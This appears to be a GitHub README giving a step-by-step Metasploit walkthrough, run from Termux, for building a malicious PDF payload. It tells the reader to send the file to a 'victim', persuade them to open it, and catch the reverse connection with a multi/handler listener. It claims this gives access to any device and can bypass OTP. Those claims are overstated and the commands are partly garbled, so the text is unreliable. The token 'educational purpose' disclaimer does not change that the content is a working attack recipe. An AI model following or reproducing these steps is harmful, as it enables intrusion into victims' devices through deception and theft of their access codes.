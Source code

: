 # HOW-TO-HACK-ANY-DEVICE-VIA-PDF
HOW TO HACK ANY DEVICE VIA PDF

:man::computer:HOW TO HACK ANY DEVICE VIA PDF:man::computer:
---------------------

#Pin and #Unmute us for such Posts!!
Things Required
:black_small_square:Termux
:black_small_square:Metasploit
:black_small_square:Good internet Connection
Note : Only for Educational Purpose :information_desk_person: Try on your own risk!

⌨LET'S START THE HACK⌨

:black_small_square:Open termux and follow the commands mentioned below. First, make sure you have metaploit installed in it.

$ msfconsole

$ use exploit/windows/fileformat/

adobe_pdf_embed_exe_nojs $ setlhost (your IP)

$ set lport (use any port)

$ exploit

▪Now you have the pdf in metasploit. Move PDF payload to your storage card. Follow the commands below.

ls -la

cd .msfs

cd local

mv (filename)/(move locations)

Now you'll see PDF payload in the SDCard, just send it to the VICTIM and convince to open it. Then you need to start the session.

STARTING THE SESSION

Follow these commands:
:black_small_square:use exploit/multi/handler
set lhost (IP) 
set lport (port) 
exploit
:black_small_square:Now you have access of the victim's phone, you can even bypass the OTP.

This method is not 100% Accurate but it works for the most of the time!

Try on your own risk!

--------------------------
